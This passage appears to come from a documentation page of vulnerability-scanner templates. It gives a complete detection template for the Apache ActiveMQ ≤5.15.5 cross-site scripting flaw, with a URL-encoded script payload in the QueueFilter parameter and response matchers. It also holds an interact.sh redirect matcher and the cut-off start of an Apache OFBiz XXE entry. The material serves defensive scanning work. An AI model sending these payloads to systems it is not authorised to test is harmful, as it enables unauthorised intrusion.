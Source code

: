 - regex
  1. (?m)^(L|l)ocation: (((http|https):)?//(www.)?)?interact.sh
- part - header

---

# Apache ActiveMQ \<=5.15.5 - Cross-Site Scripting

## Description

- Apache ActiveMQ versions 5.0.0 to 5.15.5 are vulnerable to cross-site scripting via the web based administration console on the queue.jsp page. The root cause of this issue is improper data filtering of the QueueFilter parameter.
- severity - medium
- tags - cve,cve2018,apache,activemq,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/admin/queues.jsp?QueueFilter=yu1ey%22%3e%3cscript%3ealert(%221%22)%3c%2fscript%3eqb68

### Matchers

**Type - word**

- words
  1. ">\<script>alert("1")\</script>

**Type - word**

- words
  1. /html
- part - header

**Type - status**

- status
  1. 200

---

# Apache OFBiz 16.11.04 - XML Entity Injection

## Description

- Apache OFBiz 16.11.04 is susceptible to XML external entity injection (XXE injection).

- severity - high
- tags - cve,cve2018,apache,ofbiz,xxe
